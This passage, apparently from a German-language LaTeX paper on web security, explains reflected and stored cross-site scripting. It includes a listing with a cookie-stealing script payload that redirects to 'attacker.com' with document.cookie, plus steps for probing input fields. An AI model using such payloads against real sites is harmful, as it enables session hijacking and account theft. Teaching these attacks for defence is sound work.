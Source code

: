 \begin{lstlisting}[caption={Beispiel für reflected XSS Attacke},label=reflected_xss_example]
/*
	Der Angreifer erstellt einen besonders hinterhaeltigen Schadcode und platziert ihn als Teil einer Suchanfrage.
*/

Hey user, check this out: "http://website.com/search?keyword=<script>window.location='http://attacker.com/?cookie='+document.cookie</script>"

<html>
	<h1> You Searched for:</h1>
	<script>
		window.location='http://attacker.com/?cookie='+document.cookie
	</script>
	<tr> Table of Search Results
	.
	.
	.
	.
	</tr>
</html>

GET "http://attacker.com/?cookie=user-cookie"
\end{lstlisting}


Wenn auch nur einer von tausenden Empfänger dieser E-Mail den Link klickt, ist Alice, die Täterin erfolgreich. Bob wird auf die Forumseite weitergeleitet, auf der der schadhafte JavaScript Code dann vom Web-Browser ausgeführt wird.

\subsubsection{stored XSS – persistentes XSS}
\label{subsubsection:stored_XSS}

Beim stored bzw. persistenten, sagt der Name schon aus wie es funtioniert es wird gespeichert und ist beständig. Bei dieser Art von XSS werden die schädlichen Skripte auf dem Webserver gespeichert und bei jedem Aufruf durch einen Client ausgeliefert. Zu diesem Zweck werden solche Webanwendungen für den Angriff ausgewählt, die Benutzerdaten serverseitig speichern und anschließend ohne Überprüfung oder Codierung ausgeben. Besonders anfällig für stored XSS sind Gästebücher, Blogs und Foren. Um eine stored XSS Attacke, oder auch persistente bzw. dauerhafte XSS Attacke erfolgreich ausführen zu können, müssen die Angreifenden zuerst eine Schwachstelle in einer Web-Anwendung finden, um dort ihren schadhaften JavaScript Code auf den Server laden zu können.
Um solche Schwachstellen zu finden, probiert Bob HTML tags wie beispielsweise \verb+<h1>Hello World!</h1>+ in etlichen Eingabefeldern wie Kommentar-, oder Suchfeldern aus. Wird dieser Tag vom Web-Browser als HTML Tag interpretiert, weiß Bob, dass er auf dieser Seite sein Skript platzieren kann. Hierzu fügt er anstatt eines \verb+h1 tags+, einen script tag in das Kommentarfeld ein.

